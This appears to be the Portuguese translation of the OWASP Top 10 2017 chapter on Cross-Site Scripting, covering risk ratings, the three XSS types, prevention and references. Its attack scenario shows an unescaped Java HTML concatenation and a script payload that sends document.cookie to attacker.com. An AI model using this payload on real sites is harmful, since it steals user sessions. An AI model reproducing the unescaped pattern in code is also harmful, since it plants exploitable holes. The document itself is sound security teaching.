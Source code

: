 # A7:2017 Cross-Site Scripting (XSS)

| Agentes de Ameaça/Vectores de Ataque | Falha de Segurança | Impacto |
| -- | -- | -- |
| Específico App. \| Abuso: 3 | Prevalência: 3 \| Deteção: 3 | Técnico: 2 \| Negócio ? |
| Existem ferramentas automáticas capazes de detetar e tirar partido dos três tipos de XSS. Existem ainda _frameworks_, disponibilizadas gratuitamente, capazes de explorar este problema. | XSS é o segundo maior risco no Top 10 da OWASP e cerca de dois terços das aplicações são vulneráveis a este tipo de ataque. Existem ferramentas automáticas capazes de encontrar problemas de XSS em tecnologías bastantes populares como PHP, J2EE / JSP e ASP.NET. | O impacto do XSS é moderado para os tipos Reflected e DOM XSS mas severo para Stored XSS, onde a execução remota de código no navegador da vítima permite ao atacante roubar credenciais, sessões ou até mesmo infetar a máquina da vítima com _malware_. |

## A Aplicação é Vulnerável?

Existem três tipos de XSS que visam normalmente o navegador dos utilizadores:

* **Reflected XSS**: A aplicação ou API incluem dados de entrada do utilizador
  como parte do HTML da resposta sem que estes tenham sido validados e/ou os
  caracteres especiais tratados (_escaping_). Um ataque bem sucedido pode
  permitir a execução de código HTML e JavaScript no navegador da vítima.
  Normalmente a vítima segue um endereço malicioso para uma página controlada
  pelo atacante tal como _watering hole websites_, publicidade ou algo
  semelhante.
* **Stored XSS**: A aplicação ou API armazenam dados de entrada do utilizador de
  forma não tratada (_sanitization_) os quais serão mais tarde acedidos por
  outro utilizador ou administrador. Este tipo de XSS é considerado de risco
  alto ou crítico.
* **DOM XSS**: Tipicamente as _frameworks_ JavaScript, _Single Page
  Applications_ (SPA) e APIs que incluem na página, de forma dinâmica,
  informação controlada pelo atacante, são vulneráveis a DOM XSS. Idealmente a
  aplicação não enviaria informação controlada pelo atacante para as APIs
  JavaScript.

Os ataques típicos de XSS visam o roubo da sessão do utilizador, roubo ou
controlo da conta de utilizador, contornar autenticação de multi-fator (MFA),
alteração do DOM por substituição ou alteração de nós (e.g. formulários),
ataques contra o navegador do utilizador tais como o download de software
malicioso, _key logging_ entre outros.

## Como Prevenir

Prevenir ataques de XSS requer a separação dos dados não confiáveis do conteúdo
ativo do navegador. Isto é conseguido através da:

* Utilização de _frameworks_ que ofereçam nativamente protecção para XSS tais
  como as versões mais recentes de Ruby on Rails e ReactJS. É preciso conhecer
  as limitações destes mecanismos de proteção por forma a tratar de forma
  adequada os casos não cobertos.
* Tratamento adequado (_escaping_) da informação não confiável no pedido HTTP,
  tendo em conta o contexto onde esta informação irá ser inserida no HTML (body,
  atributo, JavaScript, CSS ou URL), resolve os tipos _Reflected_ e _Stored_
  XSS. Detalhes sobre como tratar esta informação estão no [OWASP Cheat Sheet
  'XSS Prevention'][0xa71].
* Aplicação de codificação de caracteres adequada ao contexto de utilização
  aquando da modificação da página no lado do cliente previne DOM XSS. Quando
  isto não é possível, podem utilizar-se algumas das técnicas referidas no
  documento [OWASP Cheat Sheet 'DOM based XSS Prevention'][0xa72].
* Adição de [Content Security Policy (CSP)][0xa73] enquanto medida de mitigação
  de XSS. É uma medida eficaz se não existirem outras vulnerabilidades que
  possibilitem a inclusão de código malicioso através de ficheiros locais da
  aplicação (e.g. _path traversal overwrites_ ou dependências vulneráveis
  incluídas a partir de CDNs autorizadas).

## Exemplos de Cenários de Ataque

**Cenário #1**: A aplicação usa informação não confiável na construção do HTML
abaixo, sem validação ou escaping:

```Java
(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
```

O atacante altera o parâmetro `CC` no browser para:

```
'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'
```

Isto irá fazer com que a sessão da vítima seja enviada para a página do
atacante, dando-lhe o controlo sobre a atual sessão do utilizador.

**Nota**: Os atacantes podem tirar partido do XSS para derrotar qualquer
mecanismo de defesa automática contra [Cross-Site Request Forgery
(CSRF)][0xa74].

## Referências

### OWASP

* [OWASP Proactive Controls: Encode Data][0xa75]
* [OWASP Proactive Controls: Validate Data][0xa76]
* [OWASP Application Security Verification Standard: V5][0xa77]
* [OWASP Testing Guide: Testing for Reflected XSS][0xa78]
* [OWASP Testing Guide: Testing for Stored XSS][0xa79]
* [OWASP Testing Guide: Testing for DOM XSS][0xa710]
* [OWASP Cheat Sheet: XSS Prevention][0xa711]
* [OWASP Cheat Sheet: DOM based XSS Prevention][0xa712]
* [OWASP Cheat Sheet: XSS Filter Evasion][0xa713]
* [OWASP Java Encoder Project][0xa714]

### Externas

* [CWE-79: Improper neutralization of user supplied input][0xa715]
* [PortSwigger: Client-side template injection][0xa716]

[0xa71]: https://wiki.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet
[0xa72]: https://wiki.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet
[0xa73]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
[0xa74]: https://developer.mozilla.org/pt-PT/docs/Glossary/CSRF
[0xa75]: https://wiki.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016
[0xa76]: https://wiki.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016
[0xa77]: https://wiki.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project
[0xa78]: https://wiki.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001)
[0xa79]: https://wiki.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002)
[0xa710]: https://wiki.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001)
[0xa711]: https://wiki.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet
[0xa712]: https://wiki.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet
[0xa713]: https://wiki.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
[0xa714]: https://wiki.owasp.org/index.php/OWASP_Java_Encoder_Project
[0xa715]: https://cwe.mitre.org/data/definitions/79.html
[0xa716]: https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection

